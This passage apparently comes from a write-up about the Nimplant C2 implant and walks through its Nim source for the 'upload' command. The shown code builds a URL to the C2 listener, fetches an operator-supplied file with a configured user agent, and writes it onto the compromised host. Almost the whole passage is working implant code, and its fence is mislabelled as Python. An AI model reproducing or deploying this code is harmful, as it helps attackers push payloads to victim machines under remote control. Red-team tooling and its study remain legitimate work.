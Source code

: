 Because of this, the Nim code is relatively straight-forward. The bulk of it is again parsing parameters and determining the destination on disk, this time with the addition of parsing some  settings from the listener configuration.

```python
import puppy
from strutils import join, split
from os import getcurrentdir, `/`
from ../util/webClient import Listener

# Upload a file from the C2 server to Nimplant
# From Nimplant's perspective this is similar to wget, but calling to the C2 server instead
proc upload*(li : Listener, args : varargs[string]) : string =
    var 
        fileId : string
        fileName : string
        filePath : string
        url : string
        res : string

		# The command is passed as 'upload [localfile] <remotedestination>'
		# It is however transmitted as 'upload [file-identifier] [originalfilename] <remotedestination>'
    if args.len == 2 and args[0] != "" and args[1] != "":
        fileId = args[0]
        fileName = args[1]
        filePath = getCurrentDir()/fileName
    elif args.len >= 3:
        fileId = args[0]
        fileName = args[1]
        filePath = args[2 .. ^1].join(" ")
    else:
        # Handling of the second argument (filename) is done by the python server
        result = "Invalid number of arguments received. Usage: 'upload [local file] [optional: remote file]'."
        return
    
		# Parse the staging server from the configuration file
    url = li.listenerType & "://"
    if li.listenerHost != "":
        url = url & li.listenerHost
    else:
        url = url & li.listenerIp & ":" & li.listenerPort
    url = url & li.taskpath & "/" & fileId & "?id=" & li.id

    # Download the file - Puppy will take care of transparent gzip deflation
    res = fetch(
            url,
            headers = @[Header(key: "User-Agent", value: li.userAgent)]
            )
    
    if res == "":
        result = "Something went wrong uploading the file (Nimplant did not receive response from staging server '" & url & "')."
        return
    else:
        filePath.writeFile(res)
        result = "Uploaded file to '" & filePath & "'."
```
